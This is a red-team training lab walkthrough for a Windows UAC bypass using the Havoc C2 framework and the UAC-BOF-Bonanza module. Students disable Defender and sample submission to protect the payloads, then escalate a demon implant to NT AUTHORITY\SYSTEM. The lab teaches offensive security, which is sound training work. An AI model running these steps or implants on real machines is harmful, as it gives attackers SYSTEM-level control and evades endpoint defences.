


# Lab - UAC Bypass

<style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

> ***IMPORTANT*** : Please do not send submit samples to <r>Virus Total</r> or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training.
> **Make sure at all times that sample submussion in Microsoft Defender is `turned off`, and if for some reason you get prompted to submit a sample, deny the request.**

> ***IMPORTANT***: For this lab we will ***<r>TURN OFF Windows Defender</r>***. We will deal with AV evasion techniques later, for now let's focus on making sure we can escalate to the highest level of privileges (***NT AUTHORITY\SYSTEM***).

On kali :

```bash
cd /opt/havoc
mkdir modules
cd modules
https://github.com/icyguider/UAC-BOF-Bonanza.git
cd UAC-BOF-Bonanza
make
```
First let's now load or new UAC Bypass Module in havoc by clicking on `SCRIPT MANAGER` and locating the `Havoc-UACBypass,py` file.

On your windows machine, open a command prompt

```powershell
cd c:\temp\
demo.x64.exe
```


We have a beacon running in as user Threatadmin in HIGH intergity - but not as SYSTEM yet (don't worry this also works from medium integrity). We can run the `whoami` command to confirm this.


We can see here that the demon implant is running with
- user Threatadmin
- Part of the local administrators group
- in High integrity level

Now in the Havoc UI let's interact with this beacon and run our UAC-Bypass.



```powershell
uac-bypass sspidatagram c:\temp\demon.x64.exe
```


A new demon implant will spawn, but now running with SYSTEM privileges as you can verify this by interacting with this new session and running the `whoami` command again.


When opening systeminformer we can see the 2 demon implants (verify the process ID's)


To do the same attack but from an admin user running with `MEDIUM` integrity, just open a command prompt and type:

```powershell
runas /user:student_adm cmd.exe
```

This will run a command prompt as administrator (student_adm is part of the admininistrator group)